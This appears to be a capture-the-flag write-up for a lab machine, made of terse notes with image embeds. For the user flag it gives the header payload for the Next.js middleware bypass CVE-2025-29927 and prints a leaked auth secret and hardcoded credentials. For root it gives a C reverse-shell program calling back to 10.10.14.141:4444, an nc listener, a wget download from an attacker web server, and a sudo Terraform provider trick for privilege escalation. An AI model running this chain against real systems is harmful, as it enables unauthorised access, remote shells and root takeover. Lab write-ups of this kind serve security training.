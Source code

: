 ![[IMG-20250825192312409.png]]
## User Flag

### [CVE-2025-29927](https://github.com/lirantal/vulnerable-nextjs-14-CVE-2025-29927)

![[IMG-20250825192312472.png]]

![[IMG-20250825192312635.png]]
USE:
```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

![[IMG-20250825192312724.png]]

![[IMG-20250825192312815.png]]

![[IMG-20250825192312925.png]]

![[IMG-20250825192313002.png]]



![[IMG-20250825192313077.png]]

![[IMG-20250825192313147.png]]

```
NEXTAUTH_SECRET=82a464f1c3509a81d5c973c31a23c61a
```

![[IMG-20250825192313265.png]]

```
  "/api/auth/[...nextauth]": "pages/api/auth/[...nextauth].js",
```

![[IMG-20250825192313327.png]]

```js
let o = {
        session: { strategy: "jwt" },
        providers: [
          r.n(CredentialsProvider)()({
            name: "Credentials",
            credentials: {
              username: { label: "User", type: "username" },
              password: { label: "Password", type: "password" }
            },
            authorize: async e =>
              e?.username === "jeremy" &&
              e.password === (process.env.ADMIN_SECRET ?? "MyNameIsJeremyAndILovePancakes")
                ? { id: "1", name: "Jeremy" }
                : null
          })
        ],
        pages: { signIn: "/signin" },
        secret: process.env.NEXTAUTH_SECRET
      };
```


```
user: jeremy
password: MyNameIsJeremyAndILovePancakes
```

![[IMG-20250825192313380.png]]

## Root Flag

### Analyse

![[IMG-20250825192313517.png]]

![[IMG-20250825192313635.png]]

### Exploit

[Doc Terraform](https://developer.hashicorp.com/terraform/cli/config/environment-variables)

![[IMG-20250825192313713.png]]

Load a config file custom.

![[IMG-20250825192313763.png]]

### Attacker machine

```bash
gcc main.c -o terraform-provider-examples
python3 -m http.server 8000
nc -lvnp 4444
```

main.c:
```c
#include <unistd.h>
int main() {
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/10.10.14.141/4444 0>&1", NULL);
    return 0;
}

```

### Victim machine

```bash
wget http://10.10.14.141:8000/terraform-provider-examples
chmod +x terraform-provider-examples
sudo /usr/bin/terraform -chdir\=/opt/examples apply
```
Look at [[Linux/Privilege Escalation|Privilege Escalation]] for more details

![[IMG-20250825192313844.png]]

![[IMG-20250825192313920.png]]





